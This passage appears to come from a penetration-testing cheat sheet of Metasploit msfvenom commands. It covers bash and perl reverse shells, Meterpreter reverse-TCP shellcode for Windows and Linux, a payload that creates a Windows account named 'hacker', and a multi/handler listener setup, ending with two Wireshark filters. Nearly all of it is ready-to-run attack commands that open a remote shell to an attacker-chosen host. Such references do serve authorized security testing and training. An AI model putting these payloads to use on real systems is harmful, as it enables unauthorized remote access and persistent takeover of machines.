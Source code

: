 ###### Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```

###### Perl Unix Reverse shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```

## Shellcode

###### Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

###### Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

###### POP Calulator
```
msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f c
```

## Create User
```
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```

## Metasploit Handler
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run
```

# Wireshark

###### Filter packets by IP
```
ip.addr==<ip>
```

###### Filter packets sent from a specific address
```
ip.src==<ip>
```
